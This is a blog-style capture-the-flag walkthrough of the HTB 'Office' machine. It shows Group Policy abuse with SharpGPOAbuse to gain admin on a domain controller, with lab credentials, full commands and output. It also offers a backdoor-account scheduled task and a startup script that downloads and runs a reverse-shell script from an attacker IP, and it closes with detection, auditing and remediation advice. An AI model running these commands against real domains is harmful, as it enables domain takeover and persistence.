




Weaponizing Group Policy with SharpGPOAbuse.exe binary
Group Policy Objects (GPO) control everything in Active Directory. In a way, when you can edit a GPO, you control every machine that GPO touches.
This post are for some Pentesters that sometimes mismatch GPO Abuse via BloodHound graphical-right such as:
- WriteOwner
- WriteDACL
- GenericWrite, and more
Practical GPO abuse with SharpGPOAbuse.exe, an attack which turns GenericWrite on a GPO into Domain Admin in under 5 minutes.

No exploitation, no vulnerability. In a way, it's just ust abusing legitimate GPO functionality.
Everything can be re-produce with HTB machine Office, check Here.
The Attack Path
When BloodHound shows you have write access to a GPO, you're looking at privilege escalation. The GPO applies to computers, and you can modify what it does. Add yourself as local admin, wait for policy refresh, own the box.
Discovery: Finding the Path
Initial access with standard domain user:
┌──(kali㉿kali)-[~]
└─$ nxc smb 192.168.101.221 -u hhogan -p 'H4ppyFtW183#'
SMB 192.168.101.221 445 DC [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb)
SMB 192.168.101.221 445 DC [+] office.htb\hhogan:H4ppyFtW183#WinRM access confirmed, time to enumerate:
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 192.168.101.221 -u hhogan -p 'H4ppyFtW183#'
*Evil-WinRM* PS C:\Users\HHogan\Documents> whoami /groups
GROUP INFORMATION
-----------------
Group Name Type SID
=========================================== ================ =============================================
. . .[SNIP]. . .
OFFICE\GPO Managers Group S-1-5-21-1199398058-4196589450-691661856-1117*Evil-WinRM* PS C:\Users\HHogan\Documents> Get-GPO -All | Select-Object DisplayName
DisplayName
-----------
Windows Firewall GPO
Default Domain Policy
Default Active Directory Settings GPO
Default Domain Controllers Policy
Windows Update GPO
Windows Update Domain Policy
Software Installation GPO
Password Policy GPOMember of GPO Managers group. This is the golden ticket to GPO modification rights.
BloodHound Attack Path
For Data collectors it would be better with SharpHound binary.

With this, we can see how dangerous one User can be:


On BloodHound the graph reveals that we have some Modification enable on 2 GPO, earlier on PowerShell we saw multiple GPO under groups GPO Manager, now with BloodHound we can see even more:
HHOGAN@OFFICE.HTB
├─ MemberOf ─> GPO MANAGERS@OFFICE.HTB
└─ GPO MANAGERS
├─ GenericWrite ─> DEFAULT DOMAIN POLICY@OFFICE.HTB
└─ GenericWrite ─> DEFAULT DOMAIN CONTROLLERS POLICY@OFFICE.HTBIn attack-path way, we can modify the Default Domain Policy, which applies to every computer in the domain including the Domain Controller.
Exploitation with SharpGPOAbuse
What to do now!!! Transfer or Upload SharpGPOAbuse to the target:
*Evil-WinRM* PS C:\Users\HHogan\Documents> dir
Directory: C:\Users\HHogan\Documents
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 1/11/2026 2:25 AM 80896 SharpGPOAbuse.exeUsage for SharpGPOAbuse.exe in this machine scenario:
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount HHogan --GPOName "Default Domain Policy".\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount HHogan --GPOName "Default Domain Policy" --forceThen its should be good!!
Output confirms modification:
[+] Domain = office.htb
[+] Domain Controller = DC.office.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=office,DC=htb
[+] SID Value of HHogan = S-1-5-21-1199398058-4196589450-691661856-1108
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] File exists: \\office.htb\SysVol\office.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] The GPO does not specify any group memberships.
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!Full proof:
*Evil-WinRM* PS C:\Users\HHogan\Documents> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount HHogan --GPOName "Default Domain Policy" --force
[+] Domain = office.htb
[+] Domain Controller = DC.office.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=office,DC=htb
[+] SID Value of HHogan = S-1-5-21-1199398058-4196589450-691661856-1108
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] File exists: \\office.htb\SysVol\office.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!Operation succeed!!!
What Just Happened
The SharpGPOAbuse.exe modified the GPO's GptTmpl.inf file in SYSVOL to add our user to the local Administrators group. The software are intended to perform:
- Located the GPO by name and retrieved its GUID.
- Modified the security template in SYSVOL.
- Incremented the GPO version number to trigger replication.
- Updated AD attributes to reflect the change.
All legitimate GPO operations. No exploitation, no alerts.
Forcing Policy Refresh
GPO refresh happens every 90 minutes, if it's being hardened such as this HTB machine it could've been just 2 minutes then it would be reseted by default. Force immediate update:
*Evil-WinRM* PS C:\Users\HHogan\Documents> gpupdate /force
Updating policy...
Computer Policy update has completed successfully.
User Policy update has completed successfully.Then Verify new privileges:
*Evil-WinRM* PS C:\Users\HHogan\Documents> net user HHogan
User name HHogan
Full Name
Comment
User's comment
Country/region code 000 (System Default)
Account active Yes
Account expires Never
Password last set 5/6/2023 10:59:34 AM
Password expires Never
Password changeable 5/7/2023 10:59:34 AM
Password required Yes
User may change password Yes
Workstations allowed All
Logon script
User profile
Home directory
Last logon 5/10/2023 4:30:58 AM
Logon hours allowed All
Local Group Memberships *Administrators *Remote Management Use
Global Group memberships *Domain Users *GPO Managers
The command completed successfully.We're now local admin on the Domain Controller.
Game over, and Adversaries take profit!!
Why This Works
Group Policy is designed to manage thousands of computers from a central point. The security model assumes:
- Only Trusted Administrators have GPO write access.
- GPO modifications are legitimate administrative actions.
- Security templates in SYSVOL are authoritative.
When you gain write access to a GPO through group membership, domain trusts, or ACL misconfiguration, you inherit the power to modify what runs on every affected computer. The domain doesn't distinguish between "legitimate admin" and "attacker with write permissions". That's a sweet gig!
The SYSVOL Angle
GPO settings are stored in two places:
Active Directory: CN=Policies,CN=System,DC=domain,DC=local
SYSVOL Share: \\domain.local\SYSVOL\domain.local\Policies\{GUID}\I'm assuming the SYSVOL is a network share replicated across all domain controllers. When you have GPO write permissions, you can modify files in SYSVOL.
Computers trust these files implicitly during policy application.
SharpGPOAbuse modifies GptTmpl.inf, which controls:
- Local group memberships.
- User rights assignments.
- Settings.
- Registry values.
Alternative Attack Vectors
Some Adding local admin is the fastest path, but SharpGPOAbuse.exe binary supports multiple techniques:
Immediate Scheduled Task
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" --Arguments "/c net user backdoor P@ssw0rd123 /add && net localgroup administrators backdoor /add" --GPOName "Default Domain Policy"Creates immediate scheduled task that runs as SYSTEM on every computer.
User Rights Assignment
.\SharpGPOAbuse.exe --AddUserRights --UserRights "SeDebugPrivilege,SeTakeOwnershipPrivilege" --UserAccount HHogan --GPOName "Default Domain Policy"One of example to grants dangerous privileges without adding to Administrators group.
Startup Script
.\SharpGPOAbuse.exe --AddComputerScript --ScriptName "install.bat" --ScriptContents "powershell -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.5/rev.ps1')" --GPOName "Default Domain Policy"Executes script on every computer startup.
Detection and Defense
Blue teams struggle with GPO abuse because it uses legitimate functionality.
However, detection is possible.
Event Log Monitoring
GPO modifications generate events:
Event ID 5136: Directory Service Object Modified
Event ID 5137: Directory Service Object Created
Event ID 5141: Directory Service Object DeletedFilter for:
- Object: CN=Policies,CN=System,DC=domain,DC=local
- Attribute: versionNumber
- Subject: Non-administrative accountsSYSVOL Change Monitoring
Monitor SYSVOL for unexpected modifications:
Get-ChildItem "\\domain.local\SYSVOL\domain.local\Policies\" -Recurse | Where-Object { $_.LastWriteTime -gt (Get-Date).AddHours(-1) } | Select-Object FullName, LastWriteTime, LastWriteTimeUtcAlert on any GptTmpl.inf or GPT.ini modifications outside change windows.
GPO Permission Auditing
Regularly audit who has GPO write permissions:
Get-GPO -All | ForEach-Object {$GPO = $_Get-GPPermission -Guid $GPO.Id -All | Where-Object {$_.Permission -match "Edit" -and $_.Trustee.Name -notmatch "Domain Admins|Enterprise Admins|SYSTEM"} | Select-Object @{N='GPO';E={$GPO.DisplayName}}, Trustee, Permission}Investigate any non-administrative accounts with Edit permissions.
Remediation Steps
If GPO abuse is detected:
- Identify modified GPO and restore from backup.
- Force GPO refresh on all affected computers.
- Review and restrict GPO permissions.
- Audit group memberships that grant GPO rights.
- Reset credentials for compromised accounts.
- Search for persistence mechanisms installed via GPO.
Restore-GPO -Name "Default Domain Policy" -BackupId {GUID} -Path "C:\GPOBackups" Invoke-Command -ComputerName (Get-ADComputer -Filter *).Name -ScriptBlock {gpupdate /force}BloodHound Query for GPO Abuse Paths
A snip to find all users who can abuse GPOs in your environment:
MATCH p=(u:User)-[r:GenericWrite|WriteDacl|WriteOwner|Owns]->(g:GPO)
WHERE NOT u.name CONTAINS "ADMIN"
RETURN pOr find which computers are affected by abusable GPOs:
MATCH p=(u:User)-[r1:GenericWrite]->(g:GPO)-[r2:GPLink]->(c:Computer)
WHERE NOT u.name CONTAINS "ADMIN"
RETURN pThese queries reveal attack paths that lead from standard users to high-value targets through GPO abuse.
I think that's most of it for us Adversaries and some sparks of Blue-teams.
Thanks for reading!!